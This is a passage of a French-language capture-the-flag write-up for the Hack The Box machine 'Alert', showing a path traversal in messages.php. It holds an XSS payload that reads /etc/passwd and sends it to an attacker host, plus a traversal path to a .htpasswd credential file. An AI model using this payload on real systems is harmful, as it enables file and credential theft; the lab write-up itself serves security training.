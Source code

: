 Voici les résultats que l'on obtient :

+ page `/messages` : une 403 comme quand nous faisions la requete nous même
+ page `/uploads` : une 403 comme quand nous faisions la requete nous même
+ page `/messages.php` : une page dont le contenu est le suivant

```html
<h1>Messages</h1>
<ul>
    <li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li>
</ul>
```

La page contient une liste avec des dates et des liens. On voit que la page `/messages.php` accepte un paramètre d'url `file` avec un nom de fichier. Essayons d'en abuser pour lire des fichiers du système.

On utilisera le payload suivant :

```md
<script>
fetch("http://alert.htb/messages.php?file=../../../../../etc/passwd")  <---- REQUETE LA PAGE VOULUE
.then(response => response.text())
.then(data => {
    fetch("http://10.10.14.60:8000/?file_content=" + encodeURIComponent(data)); <---- RENVOIE LE CONTENU
   });
</script>
```

On obtient le resultat suivant :

{{ image(url="passwd.jpg", no_hover=true) }}

Il s'agit du fichier `/etc/passwd` encodé comme paramètre de notre URL. Nous pouvons donc lire des fichiers du système via cette vulnérabilité.

La façon de faire étant assez laborieuse (générer le payload, envoyer le markdown, récupérer le lien, l'envoyer via le formulaire puis décoder le paramètre). J'ai rapidement developper 2 scripts python qui permettent d'automatiser le processus. Les voici [server](explorer_server.py) et [client](explorer_client.py).

Le premier script est un serveur [Flask](https://flask.palletsprojects.com/en/stable/) qui automatise le processus puis ajoute le contenu du fichier demandé dans une variable. Le second est un simple script qui va requeter le serveur avec un nom de fichier a lire.

En utilisant ces deux scripts, nous pouvons commencer à explorer et à chercher du contenu qui pourrait nous interesser.

Au début de ce rapport en énumérant nous avons trouver l'url `statistics.alert.htb` qui était inaccessible car protégé par le serveur web. Nous allons chercher le fichier `.htpasswd` qui nous permettrait de connaitre les identifiants pour y acceder. On le trouve en utilisant le chemin `../../../../var/www/statistics.alert.htb/.htpasswd`.

{{ image(url="htpasswd.jpg", no_hover=true) }}

## Accès au serveur
### Flag user

